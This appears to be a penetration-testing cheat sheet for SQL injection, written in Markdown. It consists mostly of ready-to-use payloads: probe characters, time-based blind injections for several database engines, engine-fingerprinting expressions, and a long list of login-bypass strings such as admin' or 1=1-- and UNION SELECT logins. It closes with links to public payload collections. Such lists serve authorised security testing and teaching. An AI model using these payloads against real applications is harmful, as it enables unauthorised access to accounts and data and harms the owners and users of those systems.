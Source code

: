 # SQL Injection

## Entry point detection <a href="#entry-point-detection" id="entry-point-detection"></a>

### Error Messages

```plsql
'
%27
"
%22
#
%23
;
%3B
)
```

### Logical Operations

```plsql
1 or 1=1  -- true
1 and 1=2 -- false
```

### Time/Blind

<pre class="language-plsql"><code class="lang-plsql">-- MySQL --
sleep(10)

-- PostgreSQL --
pg_sleep(10)

-- MSSQL --
WAITFOR DELAY '0:0:10'

<strong>-- Oracle --
</strong>[RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)

-- SQLite --
[RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
</code></pre>

### DBMS Identification

```javascript
["conv('a',16,2)=conv('a',16,2)"                   ,"MYSQL"],
["connection_id()=connection_id()"                 ,"MYSQL"],
["crc32('MySQL')=crc32('MySQL')"                   ,"MYSQL"],
["BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)"       ,"MSSQL"],
["@@CONNECTIONS>0"                                 ,"MSSQL"],
["@@CONNECTIONS=@@CONNECTIONS"                     ,"MSSQL"],
["@@CPU_BUSY=@@CPU_BUSY"                           ,"MSSQL"],
["USER_ID(1)=USER_ID(1)"                           ,"MSSQL"],
["ROWNUM=ROWNUM"                                   ,"ORACLE"],
["RAWTOHEX('AB')=RAWTOHEX('AB')"                   ,"ORACLE"],
["LNNVL(0=123)"                                    ,"ORACLE"],
["5::int=5"                                        ,"POSTGRESQL"],
["5::integer=5"                                    ,"POSTGRESQL"],
["pg_client_encoding()=pg_client_encoding()"       ,"POSTGRESQL"],
["get_current_ts_config()=get_current_ts_config()" ,"POSTGRESQL"],
["quote_literal(42.5)=quote_literal(42.5)"         ,"POSTGRESQL"],
["current_database()=current_database()"           ,"POSTGRESQL"],
["sqlite_version()=sqlite_version()"               ,"SQLITE"],
["last_insert_rowid()>1"                           ,"SQLITE"],
["last_insert_rowid()=last_insert_rowid()"         ,"SQLITE"],
["val(cvar(1))=1"                                  ,"MSACCESS"],
["IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0"               ,"MSACCESS"],
["cdbl(1)=cdbl(1)"                                 ,"MSACCESS"],
["1337=1337",   "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
["'i'='i'",     "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
```

### Authentication Bypass

```plsql
'-'
' '
'&'
'^'
'*'
' or 1=1 limit 1 -- -+
'="or'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
'-||0'
"-||0"
"-"
" "
"&"
"^"
"*"
'--'
"--"
'--' / "--"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 2 like 2
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' -- -
admin' #
admin'/*
admin' or '2' LIKE '1
admin' or 2 LIKE 2--
admin' or 2 LIKE 2#
admin') or 2 LIKE 2#
admin') or 2 LIKE 2--
admin') or ('2' LIKE '2
admin') or ('2' LIKE '2'#
admin') or ('2' LIKE '2'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin';-- azer 
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```

## Cheatsheets

* **MySQL**
  * [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md)
  * [**https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet**](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
* **Oracle**
  * [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/OracleSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/OracleSQL%20Injection.md)
  * [**https://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet**](https://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet)
* **PostgreSQL**
  * [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)
  * [**https://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet**](https://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet)
* **MSSQL**
  * [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md)
  * [**https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet**](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
* **Other DBMSs**
  * [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#cheatsheets](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#cheatsheets)
  * [https://pentestmonkey.net/category/cheat-sheet/sql-injection](https://pentestmonkey.net/category/cheat-sheet/sql-injection)

## References

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)\
[https://book.hacktricks.xyz/pentesting-web/sql-injection](https://book.hacktricks.xyz/pentesting-web/sql-injection)\
[https://pentestmonkey.net/category/cheat-sheet/sql-injection](https://pentestmonkey.net/category/cheat-sheet/sql-injection)
